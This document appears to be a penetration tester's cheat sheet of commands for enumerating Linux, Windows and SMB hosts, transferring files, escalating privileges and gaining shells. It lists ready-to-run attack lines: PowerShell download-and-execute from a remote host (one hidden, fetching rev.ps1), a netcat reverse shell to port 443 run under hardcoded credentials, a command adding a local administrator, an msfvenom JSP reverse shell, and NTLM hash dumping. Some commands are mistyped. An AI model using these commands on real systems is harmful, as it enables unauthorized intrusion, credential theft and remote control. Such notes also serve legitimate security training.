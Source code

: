 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files   
find / -perm -u=s -type f 2>/dev/null  //SUID files
uname -a                         //Posible Linux Kernel Exploit  

### Tools:
[enum4linux](https://github.com/portcullislabs/enum4linux) //enum all  
[pspy](https://github.com/DominicBreuker/pspy) //Process monitoring in LiveMod

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  

[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
[Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)  
[fgdump.exe](https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump)  /// DumpPassword NTLM Hashes  


SMBEnum:
--------------------------------------------------
nmblookup -A [ip]    
nbtscan [ip]    
smbmap -H [ip]    
smbclient -L [ip]    
smbclient //[ip]/tmp    

rpcclient -U "" -N [ip]      
enumdomusers  

nmap --script smb-vuln* -p 139,445 [ip]    
nmap --script smb-enum-shares -p 139,445 [ip]  
enum4linux -a [ip]    
  
File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "C:\Users\Public\Documents\file.exe") 

powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/rev.ps1')  

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  
stty rows 56 columns 213  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  


PSChangeUser  
----------------------------------------------------
$username = 'alice'  
$password = 'alicepass'  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword  
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","10.10.10.10","443","-e","cmd.exe") -WorkingDirectory C:\Users\Public  

PSAddAdminUser  
net user /add [*username] [password]  
net localgroup administrators [username] /add  

Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

MSFVenom Shell:
--------------------------------------------------
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > shell.jsp  

Pivoting:
--------------------------------------------------
https://github.com/21y4d/Notes/blob/master/Pivoting.txt  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    //Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   //SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //BuferOverFlow tutor  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  //Linux PrivEsc Tips
https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html  //Reverse Shells  
https://www.fuzzysecurity.com/tutorials/16.html  //WindowsPrivEsc   
https://refabr1k.gitbook.io/oscp/reverse-shell  //StudyNotes  
https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html  //SQLTips  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/  //MoreSQL  
https://github.com/21y4d/nmapAutomator/blob/master/nmapAutomator.sh  //nmapAutomator  
